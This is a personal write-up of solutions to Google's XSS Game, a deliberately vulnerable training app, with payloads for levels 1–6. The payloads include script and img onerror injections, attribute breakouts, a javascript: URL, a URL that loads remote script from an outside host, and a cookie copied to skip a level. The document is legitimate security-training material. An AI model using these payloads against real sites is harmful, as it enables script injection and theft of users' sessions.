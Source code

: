# Notes on Google's [XSS Game][1] Web App

## Level 1
Level 1 can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```



## Level 2

```
" onerror=alert('xss')/> <img src="cloud1.jpg">
```

## Level 3
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I stole Safari's cookie called "level3".
I configured Safari to use the Burp proxy, then copied the name and value of the third cookie:
```
level1=f148716ef4ed1ba0f192cde4618f8dc5; level2=b5e530302374aa71cc3028c810b63641; level3=d5ce029d0680b3816a349da0d055fcfa
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome.

## Level 4

https://xss-game.appspot.com/level4

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## Level 5
I got through Level 5 with this URL:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
But clicking the Go button next to the URL did not work. I had to actually click the "Next >>" button. That button, if you mouse over it, showed that it's target was:
```
javascript:alert(1)
```

By me having edited the URL manually, that button's href value had changed to my input.


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
